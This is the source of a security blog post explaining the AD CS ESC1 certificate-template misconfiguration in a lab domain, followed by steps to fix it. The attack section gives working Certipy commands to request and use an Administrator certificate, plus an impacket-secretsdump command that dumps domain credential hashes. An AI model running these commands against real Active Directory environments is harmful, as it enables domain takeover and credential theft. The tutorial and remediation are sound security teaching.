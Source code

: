 ```yaml
---
title: "Exploiting Misconfigured Active Directory Certificate Template – ESC1"
slug: "adcs-esc1-exploit"
author: "PentStark Labs"
date: "2025-10-03"
readTime: "8 min read"
category: "Active Directory"
tags: ["ADCS", "Active Directory", "ESC1", "PKI", "Certipy", "Rubeus"]
image: "/src/content/blogs/blog01/blog01-0.png"
excerpt: "How a single 'Enrollee supplies subject' option on an AD CS template lets attackers mint logon-capable certificates for any user, including Domain Admins."
featured: true
---
```


# Exploiting and Fixing Vulnerable Certificate Templates in Active Directory

Certificates are crucial in establishing trust and securing communication within the Active Directory environment. They are used for authentication, encryption, and digital signatures. Certificate Templates are predefined configurations that define the properties and settings for the certificates issued by the Active Directory Certificate Authority (CA). These templates help standardize certificate issuance and ensure certificates adhere to specific security requirements. An attacker can use these templates to escalate privileges from domain users to domain admins if they are not configured correctly. In this blog, we will discuss what a vulnerable template is and how to exploit and fix it.

## Active Directory Certificate Services (AD CS) Templates

Active Directory Certificate Services (AD CS) templates are predefined certificate request configurations that allow administrators to define the characteristics of certificates that will be issued by the CA (Certificate Authority). Templates serve as blueprints for different types of certificates and their properties, making it easier to manage and issue certificates with consistent settings across an organization’s PKI (Public Key Infrastructure).

Administrators can streamline requesting, issuing, and managing certificates within an organization using templates. Templates ensure consistency, simplify the certificate issuance process, and help maintain security standards by enforcing specific configurations for different certifications.

## Active Directory Certificate Services (AD CS) Vulnerable Templates

Templates, by default, are not vulnerable but made vulnerable by human-made misconfigurations. When writing this blog, these misconfigurations are divided into 11 parts (ESC1-ESC11). In this blog, we will exploit ESC1 misconfiguration in a template.

By exploiting this type of vulnerable Template, a domain user can escalate his privileges to that of a domain administrator in a Windows Active Directory Environment.

## Exploiting ESC1

For exploiting ESC1, we need the Template to meet certain criteria. The Template must have:

- Enrollment Rights set for the group our user belongs to so that we can request a new certificate from the Certificate Authority (CA).
- Extended Key Usage: Client Authentication means the generated certificate based on this Template can authenticate to the domain computers.
- Enrollee Supplies Subject set to True, which means we can supply SAN (Subject Alternate Name).
- No Manager Approval is required, which means the request is auto-approved.

### Step to Exploit Misconfigured Certificate Template – ESC1

1. Certipy is a tool used for finding and exploiting certificates in Active Directory.

![ESC1 – AD CS Vulnerable Template](/src/content/blogs/blog01/blog01-1.png)

2. Run certipy against the domain controller to find any vulnerable templates.

```
certipy find -vulnerable -dc-ip 192.168.0.144 -u Guts@ACU.local -p 'P@ssw0rd!'
```
![ESC1 – AD CS Vulnerable Template](/src/content/blogs/blog01/blog01-2.png)


    - `-u`: Domain User  
    - `-p`: Domain User Password  
    - `-dc-ip`: Domain Controller IP  

    Domain: ACU.local


3. Cat the created text file by certipy to see the vulnerable Template.

![ESC1 – AD CS Vulnerable Template](/src/content/blogs/blog01/blog01-3.png)

![ESC1 – AD CS Vulnerable Template](/src/content/blogs/blog01/blog01-4.png)


    From the output, it is clear that enrollment rights are set for Domain Users, Enrollee Supplies Subject is set to True, and Extended Key Usage has Client Authentication.

4. Request a certificate and supply the Administrator’s SAN (Subject Alternate Name).

    ```
    certipy req -dc-ip 192.168.0.144 -u Guts@ACU.local -p 'P@ssw0rd!' -ca ACU-ANIKATE-DC-CA -target ANIKATE-DC.ACU.local -template ESC1 -upn Administrator@ACU.local -dns Anikate-DC.ACU.local
    ```
![ESC1 – AD CS Vulnerable Template](/src/content/blogs/blog01/blog01-5.png)

    - `ca`: Certificate Authority (ACU-ANIKATE-DC-CA in this case)  
    - `target`: CA Hostname (ANIKATE-DC.ACU.local in this case)  
    - `template`: Name of the vulnerable Template (ESC1 in this case)  
    - `upn`: Target Username (Administrator in this case)  
    - `dns`: DNS Server (Anikate-DC.ACU.local in this case)

5. Authenticate against the domain controller using the certificate.

```
certipy auth -pfx administrator_anikate-dc.pfx -dc-ip 192.168.0.144
```
![ESC1 – AD CS Vulnerable Template](/src/content/blogs/blog01/blog01-6.png)

    - `auth`: Which identity to authenticate as (We are establishing as Administrator, so use 0, i.e., UPN: Administrator@ACU.local)  
    - `-pfx`: Saved Certificate (administrator_anikate-dc.pfx in this case)  

    Now, we attempt to show the domain controller using the certificate and get the TGT (Ticket Granting Ticket); the domain controller will attach the NTLM hash of the user with TGT.

6. Dump hashes and LSA secrets using secretsdump.

```
impacket-secretsdump -hashes 'aad3b435b51404eeaad3b435b51404ee:9a0c89751f9ac637242da5ac889fa3aa' 'ACU.local/Administrator@192.168.0.144.'
```
![ESC1 – AD CS Vulnerable Template](/src/content/blogs/blog01/blog01-7.png)


## Fixing the Misconfigured Certificate Template – ESC1

1. Open the Server Manager on your Certificate Authority.  
2. Click on **Tools** and then **Certification Authority**.  

![ESC1 – AD CS Vulnerable Template](/src/content/blogs/blog01/blog01-8.png)

3. Right-click on **Certificate Templates** and click on **Manage**.  

![ESC1 – AD CS Vulnerable Template](/src/content/blogs/blog01/blog01-9.png)

4. Right-click on the vulnerable Template and click on **Properties**.  

![ESC1 – AD CS Vulnerable Template](/src/content/blogs/blog01/blog01-10.png)

5. Go to **Issuance Requirements** and check the **CA certificate manager approval** box.  

![ESC1 – AD CS Vulnerable Template](/src/content/blogs/blog01/blog01-11.png)

6. Go to **Subject Name**, select **Build from this Active Directory information** instead of **Supply in the request**, and click **Apply**.  

![ESC1 – AD CS Vulnerable Template](/src/content/blogs/blog01/blog01-12.png)

7. Go to **Security**, select the **Domain Users Group**, uncheck the **Enroll** box, and then click **Apply** and **OK**.  

![ESC1 – AD CS Vulnerable Template](/src/content/blogs/blog01/blog01-13.png)

8. Now rerun certipy.  

![ESC1 – AD CS Vulnerable Template](/src/content/blogs/blog01/blog01-14.png)

9. Cat the created text file by certipy to see if the vulnerable Template exists.  

![ESC1 – AD CS Vulnerable Template](/src/content/blogs/blog01/blog01-15.png)

Certipy should not find any vulnerable templates.

## TL;DR

Attackers can escalate their privileges from domain users to domain admins by exploiting the misconfiguration of certificate templates that are not vulnerable by default but due to human-made misconfigurations. For exploitation, we need the Template to meet certain requirements: ability to supply SAN (Subject Alternate Name), manager approval set to False, enrollment rights for the user group, and Template allows client authentication.
